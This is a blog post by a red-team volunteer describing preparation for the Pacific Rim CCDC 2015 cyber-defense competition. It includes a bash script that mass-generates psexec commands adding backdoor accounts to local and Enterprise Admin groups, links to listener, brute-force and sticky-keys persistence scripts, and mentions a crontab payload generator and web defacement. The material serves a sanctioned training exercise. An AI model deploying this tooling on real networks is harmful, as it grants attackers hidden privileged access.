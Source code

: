 ```yaml
---
layout: post
title: How I Prepared to Red Team at PRCCDC 2015
summary: A bit about how I prepared for the Pacific Rim CCDC 2015 competition
featuredimage: /assets/prccdc2015-defacement.gif
tags:
- ccdc
---
```


I had the opportunity to take part in the Pacific Rim CCDC this past weekend and it was a BLAST! It was my first CCDC, so I really didn't know what to expect. I did know that the last thing I would want to be doing is installing and configuring tools during test time.

### Kali
I err'd on the side of installing tools I may not use rather than not installing something I would need. I've got a goto script I use for my setting up a Kali VM and customizing. It installs a ton of tools and scripts that I use. The script can be found [here](https://github.com/bluscreenofjeff/CCDC-Scripts/blob/master/kali_setup.sh).


Then, I made some manual tweaks:

* Change root password
* Enable autologin within `/etc/gdm3/daemon.conf`
* Disable screen lockout
* Add Leafpad and Screenshot to taskbar
* Alias `msfconsole='msfconsole -r /msfconsole.rc'`
* Add `* * * * * /payload_gen.sh` to crontab

Next up was loading up on wordlists. I rounded up the usual suspects (Cain, John, RockYou, etc) but I knew I would want to add some inconspicuous user accounts and mess with the Blue Team's host file. To accomodate, I found lists of the top 10,000 US last names and internet domain names. I ended up just whipping up a slightly taunting list of 10 usernames that I used day of, but if I needed 10k usernames I had them.

I wrote a quick bash script to create a Metasploit resource script and batch file that creates new local users and add them to the local admin group for persistence sake.

```bash
#!/bin/bash
#by bluescreenofjeff
IFS=$'\n'
USERLISTFILE='/root/Desktop/users.txt'
PASSVAR='StrongPassword1'
OUTFILELOCAL='mass_user_add_local.rc'
OUTBATLOCAL='mass_user_add_local.bat'
OUTFILEDOMAIN='mass_user_add_domain.rc'
OUTBATDOMAIN='mass_user_add_domain.bat'

#BAT Output - local
for CURRUSER in `cat $USERLISTFILE`
do
	echo net user $CURRUSER /add /active:yes\ >> $OUTBATLOCAL
	echo net user $CURRUSER $PASSVAR >> $OUTBATLOCAL
	echo net localgroup  administrators $CURRUSER  /add >> $OUTBATLOCAL
done

#BAT to RC - local
echo 'use auxiliary/admin/smb/psexec_command' >> $OUTFILELOCAL
for EACH in `cat $OUTBATLOCAL`
do
	echo set command \" $EACH \" >> $OUTFILELOCAL
	echo run >> $OUTFILELOCAL
done


#BAT Output - domain
for CURRUSER in `cat $USERLISTFILE`
do
	echo net user $CURRUSER /add /active:yes /domain >> $OUTBATDOMAIN
	echo net user $CURRUSER $PASSVAR /domain >> $OUTBATDOMAIN
	echo net localgroup  administrators $CURRUSER  /add /domain >> $OUTBATDOMAIN
	echo net group "Enterprise Admins"  $CURRUSER /add /domain >> $OUTBATDOMAIN
	echo net group "Enterprise Admins"  $CURRUSER /add /domain >> $OUTBATDOMAIN
done

#BAT to RC - domain
echo 'use auxiliary/admin/smb/psexec_command' >> $OUTFILEDOMAIN
for EACH in `cat $OUTBATDOMAIN`
do
	echo set command \" $EACH \" >> $OUTFILEDOMAIN
	echo run >> $OUTFILEDOMAIN
done
```

[Source](https://github.com/bluscreenofjeff/CCDC-Scripts/blob/master/mass_user_add_generator.sh)


### Metasploit
Most of the Red Teamers used Cobalt Strike Team Servers as their base of operations, but since I haven't used it that much and didn't want to potentially get shut out of my target boxes because of learning curve. I decided to stick with msfconsole as my main tool for the weekend. My main goal in preparation was to get as much of the time-wasting stuff automated as possible.


* [intel.rc](https://github.com/bluscreenofjeff/Metasploit-Resource-Scripts/blob/master/intel.rc) - Runs a number of intel-gathering Windows commands. Run from the Meterpreter prompt.
* [bounce](https://github.com/bluscreenofjeff/Metasploit-Resource-Scripts/blob/master/bounce.rc) - Restarts a reverse_tcp listener on 443.
* [bouncessl](https://github.com/bluscreenofjeff/Metasploit-Resource-Scripts/blob/master/bouncessl.rc) - Restarts a reverse_https listener on 443.
* [local500.rc](https://github.com/bluscreenofjeff/Metasploit-Resource-Scripts/blob/master/local500.rc) - Sets up for a brute force of the built-in 500 accounts. Modify with `file:///path/to/wordlist` on line 4.
* [winpersist.rc](https://github.com/bluscreenofjeff/Metasploit-Resource-Scripts/blob/master/winpersist.rc) - Sets up sticky keys, utilman, and display persistence using psexec_command.
* [msfconsole.rc](https://github.com/bluscreenofjeff/Metasploit-Resource-Scripts/blob/master/winpersist.rc) - msfconsole startup script. Reference the file path in the alias above. This gets written by the script above



### Commands
The biggest prep item was getting a solid copy/paste command list ready. This was a big focus point of the Red Team this year since the goal was to attack Blue Teams with the same attacks at roughly the same times. The command list has been reposted by Action Dan [here](http://lockboxx.blogspot.com/2015/03/red-teaming-at-prccdc-2015.html). 

In the time leading up to the official start, I pasted every single command from Phase 1's attacks into their own consoles so once the Red Team gets the go-ahead all you have to do is hit enter. 





### Defacement
Though this was my first rodeo, I knew that there would be opportunities to deface some web interfaces and I wanted to be ready to bring some lulz. This is what I settled on:
![I am invincible!]({{site.url}}/assets/prccdc2015-defacement.gif)
[Source](https://github.com/bluscreenofjeff/CCDC-Scripts/tree/master/website-defacement)

Looking back now, I should have also gathered some nice gifs about patching or host hardenening.
     


### Prepping for Next Year
As I mentioned I had a blast this year and hope to attend again next year. Before then there are a few scripts I'd like to have written and in-hand before go-time:

* **ndiff to monitor environment** - Before this year I started tweaking this script from the nmap documentation to diff periodic scans and monitor for network changes. I didn't get it polished enough and now am wondering if it's the best way to get what I'm after, but I'd like to be able to monitor the Blue Team's environment as close to realtime as possible. Spot new hosts, identify restarts, etc.
* **Low-hanging fruit scans** - Along the same lines, I would like a way to constantly check for previously used credentials, previously exploited vulns, etc to try and catch systems when they get reverted. 
* **Script to remove users from admin groups** - This is something my Red cell team manually did this year. We got Domain Admin access and once the final phase of wreaking havoc was called on we ran the resource script to remove all DAs from the Domain Admin, Enterprise Admin, Schema Admin, and Remote Desktop user groups. It would have been much easier to have a script to make that resource script. Simple enough.
* **moar lulz** - Somewhere around the middle of Phase 2 my co-Red cell teamer and I were watching some Boos from Super Mario Bros. chasing the Blue Teamer's mouse and causing them much frustration while trying to write a Disaster Recovery Plan. That was a lot of fun. I'd like to find some more ways to make our presence known to the Blue Teamers without being too destructive and watch them try to remediate us out. VNC, replaced sysinternals tools, things like that would be fun...

If I had to give one piece of advice to a first time Red Teamer, my suggestion is to prepare as much as possible. The LAST thing you want to be doing during the competition is Googling how to run an exploit or how to add yourself to the local admin group. That's not to say you'll avoid it completely-- you most likely won't -- but you want to minimize searching time down to things that are unique to the environment at hand. Automate the basic stuff that takes time, copy/paste the rest.
    